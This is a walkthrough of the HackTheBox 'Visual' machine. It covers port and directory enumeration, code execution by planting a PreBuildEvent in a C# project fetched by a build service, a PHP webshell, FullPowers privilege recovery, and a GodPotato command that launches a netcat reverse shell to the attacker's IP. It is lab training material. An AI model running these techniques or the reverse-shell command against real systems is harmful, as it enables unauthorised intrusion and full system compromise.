 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/2cb269d8-b8b3-4f97-9e0a-d4f03720ed70)
https://app.hackthebox.com/machines/Visual

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

I began my enumeration by conducting a quick Rustscan on the target box to identify open ports and services. Regrettably, the scan revealed only one open port, which was running an Apache HTTP server on port 80. Here's the command I used for the scan:

```bash
sudo rustscan -a 10.10.11.234 -- -sC -sV -vv -oN visual_nmap
```
The Rustscan results provided the following information:

```Rust
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
|_http-title: Visual - Revolutionizing Visual Studio Builds
```
As I delved deeper, I explored the website associated with this open port. It became evident that the webpage was designed to accept a GitHub repository link, retrieve the .sln file from a C# project, and compile it for users:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/176a7e29-300e-4bc4-b825-878584f41788)

Continuing my investigation, I decided to use Gobuster to search for subdirectories. Although I uncovered a few directories, none of them seemed to offer a promising initial access vector. Here's the Gobuster command I used:

```bash
gobuster dir -u http://10.10.11.234/ -t 10 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o visual_web -x php,txt -e -b 404,403,400 -k
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/4fc23b35-7797-4e97-b98f-7ea738ce6c8d)

Continuing my investigation, I started my web server and inserted my local IP into the GitHub URL link to check for a response:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/26e38cbe-6e09-459d-a269-897f20927069)

Based on the response I received, it appeared that the application was searching for a valid Git repository link:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e5324ae5-90e8-4770-aa1a-0c2639462e65)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Creation .NET project & git repo:

To proceed, we needed to create a temporary .NET project containing a .SLN file that the target application would fetch. The process to create the temporary .NET project was as follows:

First, we created a new .SLN file named "virtual" with the following command:

```bash
dotnet new sln -n virtual
```

Then, we added a new console application named "virtual" within the project using:

```bash
dotnet new console -n virtual
```
We included the newly created virtual.csproj into the solution "virtual" with:

```bash
dotnet sln add virtual/virtual.csproj
```

To initiate version control for the project, we initialized a Git repository:

```bash
git init
```

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/94f05b06-7c84-4235-be04-58c8af0ccf00)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f77a18f0-c5bf-4159-ab3a-558ad1533be7)


With the project and Git repository in place, we committed the changes by following these steps:

Added all changes to the Git staging area with the command:

```bash
git add .
```

Commited the changes with a descriptive message:

```bash
git commit -m "add"
```

We navigated to the .git directory to execute the following command, which updates the Git server information:

```bash
cd .git
git --bare update-server-info
```

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e6f5dfa0-84ca-40ef-82d6-6ff5feb5dca0)

Following these steps, we relaunched the HTTP server and provided the Git URL to the target application:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/55de984b-d9f9-447b-b7f6-7e32c9faa0b4)

This time, the target application did not display any errors while fetching the files from our Git repository:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/49624887-4511-446a-8aa4-d5e1a3bc2b53)

Although the build process failed, it confirmed that the build operation was running in the background:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/a89eeabf-256f-4341-a4a5-0cd175de7876)

To address this, we created a file with a "[PreBuildEvent](https://learn.microsoft.com/en-us/cpp/build/how-to-use-build-events-in-msbuild-projects?view=msvc-170&source=post_page-----be0130b1c2df--------------------------------)" function, which performs execution before the build begins. We edited the content of the .csproj file to include "PreBuildEvent." The modified .csproj file looked something like this:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/46d389e7-ea67-47d8-b7f2-e1e33164f186)

After completing these steps, we initiated another Git commit and pasted our Git commit link. This action fetched the HTA payload and executed it in the PreBuild event, eventually providing us with a reverse shell in Metasploit.

Additionally, we started the Metasploit HTA web delivery server, which would deliver the payload:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/dc3bb4ee-49c9-4b1c-942b-7396e0f73c7c)


After upgrading the shell, we finally gained access as the user "VISUAL\enox" and acquired the user flag. (pwn3d! 🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/d449dcfa-e05e-4588-8c3d-8b3731d587eb)


-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Privilege Escalation:

Now that I had user access, it was essential to move laterally and elevate my privileges to gain access to the root flag. To facilitate this, I uploaded the WinPEAS binary and initiated a comprehensive scan for potential privilege escalation vectors:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/a35e5958-2869-4aee-aa7d-c8ea73e59d2f)

WinPEAS revealed that, as the user "enox," I possessed write access to the "C:\xampp" folder:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e18e2099-3287-44b2-9273-f8e7bbdf370d)

With write access to the "xampp\htdocs" folder, I had the freedom to upload any content and access it via the website. I decided to upload a PHP [webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985#file-easy-simple-php-webshell-php), using the webshell for this purpose:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e858f05d-419e-4672-8f62-21a283d9a56f)

After successfully uploading the PHP webshell, I accessed it via the website, enabling me to execute commands within the shell:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/aa6fb531-8cfc-491d-ac6f-4134956f20e5)

It came to my attention that the webshell was running as "nt authority\local service":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/a81ff13c-7574-42b6-bf13-61c2d3936cdc)

Further research and references led me to a remarkable [tool](https://github.com/itm4n/FullPowers?source=post_page-----be0130b1c2df--------------------------------), as described in an insightful [blog](https://itm4n.github.io/localservice-privileges/?source=post_page-----be0130b1c2df--------------------------------). The blog explained:

```
On Windows, some services executed as LOCAL SERVICE or NETWORK SERVICE are configured to run with a restricted set of privileges. Therefore, even if the service is compromised, you won't get the golden impersonation privileges and privilege escalation to LOCAL SYSTEM should be more complicated. However, I found that, when you create a scheduled task, the new process created by the Task Scheduler Service has all the default privileges of the associated user account (except SeImpersonate). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.
```

Once I executed "fullpower.exe" on the target host, my privileges as the local service account were elevated, as evidenced in the screenshot below:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/37f70118-ac44-4cbc-90da-efbd03815728)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Root.txt

Upon achieving the "SeImpersonatePrivilege" and "SeAssignPrimaryTokenPrivilege," I decided to upload a Windows netcat binary and utilize the [potato exploit](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer?source=post_page-----be0130b1c2df--------------------------------) to attain system-level privileges.

In this scenario, I opted for the [God Potato exploit](https://github.com/BeichenDream/GodPotato/releases) to establish a reverse shell on my Kali host, using a netcat listener. I initiated the netcat listener and executed God Potato to run netcat with system-level privileges:

```powershell
GodPotato-NET4.exe -cmd "C:\Users\Public\Temp\nc.exe 10.10.14.109 13337 -e cmd"
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9406b909-4455-491e-b1fe-05b283dc9a19)

As a result, I received a reverse shell as NT Authority\System:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/7dc06dbd-5187-4f60-8f88-c5053636227c)

Using this system shell, I was able to access the root flag as well. (pwn3d! 🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/0809a746-c5cb-4561-b2ad-4baf513c8cdf)


